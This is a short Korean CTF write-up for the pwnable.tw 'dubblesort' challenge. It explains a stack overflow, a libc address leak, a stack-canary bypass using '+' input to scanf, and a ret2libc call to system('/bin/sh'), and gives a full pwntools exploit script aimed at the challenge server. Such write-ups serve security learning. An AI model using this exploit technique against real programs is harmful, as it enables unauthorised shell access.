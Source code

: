 ```yaml
---
title: "[pwnable.tw]dubblesort"
date: 2020-2-21
ctf: Pwnable.tw
layout: post
published : false
---
```


문제는 쉬웠는데 remote offset이랑 local offset이랑 다른거 생각 못해서 너무 삽질했다. 이거때문에 디버깅만 몇 십번 한거같다 ㅎ;

취약점은 원하는 만큼 입력이 가능하기 때문에 터진다. name을 입력받을 때 stack에 있는 값을 leak할 수 있고 Canary를 scanf에서 +,-로 bypass해주고 `system("/bin/sh")` 로 만들어주면 된다.

> exploit.py

```python
from pwn import *

# context.log_level = 'error'
e = ELF('./dubblesort')
# p = process('./dubblesort',aslr=True)
p = remote('chall.pwnable.tw',10101)
libc = ELF('./libc_32.so.6')
# libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

sa(':','A'*25)
p.recvuntil('A'*25)
leak = u32('\x00'+p.recv(3))
log.info('leak : {}'.format(hex(leak)))
libc_base = leak - 0x1b0000 # remote
#libc_base = leak - 0x1b2000 # local
log.info('libc_base : {}'.format(hex(libc_base)))

sla(':','35')

for i in range(24):
 	sla(':',str(0xaaaaaaaa))

sla(':','+') # Canary

for i in range(8):
 	sla(':',str(libc_base + libc.symbols['system']))

sla(':',str(libc_base + libc.symbols['system']))

sla(':',str(libc_base + libc.search('/bin/sh\x00').next()))

p.interactive()
```

